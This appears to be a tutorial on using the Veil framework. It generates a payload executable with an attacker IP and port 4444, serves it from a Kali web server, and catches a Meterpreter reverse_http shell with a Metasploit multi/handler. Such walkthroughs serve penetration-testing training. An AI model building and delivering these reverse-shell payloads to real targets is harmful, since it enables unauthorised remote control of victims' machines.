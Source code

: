 Get info on specific tool
```sh
info 1
```

Select the option required
```sh
use 1
```

Once inside the chosen tool you can list out the payloads
```sh
list
```

Select payload and view it's details
```sh
use 14
```

Set LHOST and LPORT (ifconfig)
```sh
set LHOST <attacker-ip>
```

```sh
set LPORT 4444
```
- We can use `options` to verify that the payload has been updated

If everything looks good you can generate the payload
```sh
generate
```
- It will ask you to choose a name and then start generating the payload
- It then displays the output locations of the new payload

Press enter to go back to the payload screen, or exit to quit from Veil.

You can put the file in your Kali server so that you can access it easily while exploiting a sysytem or redirect a target to the Kali server that is serving the new payload. `var/www/html/payload.exe`

Using it with Metasploit:
```sh
msfconsole
```

```sh
use exploit/multi/handler
```

```sh
set PAYLOAD windows/meterpreter/reverse_http
```
- Try, if you get an error, using `windows/meterpreter/reverse_https`

```sh
show options
```
